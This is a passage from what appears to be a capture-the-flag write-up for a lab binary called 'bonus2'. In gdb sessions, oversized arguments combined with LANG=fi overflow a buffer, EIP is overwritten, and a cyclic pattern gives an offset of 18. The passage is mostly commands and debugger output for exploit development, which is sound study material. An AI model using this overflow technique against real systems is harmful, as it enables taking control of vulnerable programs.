 	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

It's in the second argument

The check on the LANG env variable is stored on a global variable "language" and has an influence on some parts of the function "greetuser"

Let's try with "fi" in LANG

	$ LANG=fi gdb bonus2 

	(gdb) r $(python -c 'print "B"*200') $(python -c 'print "A"*200')
	Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B"*200') $(python -c 'print "A"*200')
	Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	Program received signal SIGSEGV, Segmentation fault.
	0x41414141 in ?? ()

	(gdb) i r
	eax            0x5b	91
	ecx            0xffffffff	-1
	edx            0xb7fd28b8	-1208145736
	ebx            0xbffff450	-1073744816
	esp            0xbffff400	0xbffff400
	ebp            0x41414141	0x41414141
	esi            0xbffff49c	-1073744740
	edi            0xbffff44c	-1073744820
	eip            0x41414141	0x41414141
	eflags         0x210286	[ PF SF IF RF ID ]
	cs             0x73	115
	ss             0x7b	123
	ds             0x7b	123
	es             0x7b	123
	fs             0x0	0
	gs             0x33	51

We have EIP! Get the offset now

	(gdb) r $(python -c 'print "B"*200') $(cat /tmp/pattern)
	Starting program: /home/user/bonus2/bonus2 $(python -c 'print "B"*200') $(cat /tmp/pattern)
	Hyvää päivää BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH

	Program received signal SIGSEGV, Segmentation fault.
	0x46464545 in ?? ()

In EIP there is EEFF -> The offset start at the 3rd E

	/get_offset.py 45
	E => offset = 16

The offset of E is 16 -> + 2 because it's the third = 18

The offset foir overwrite EIP is 18
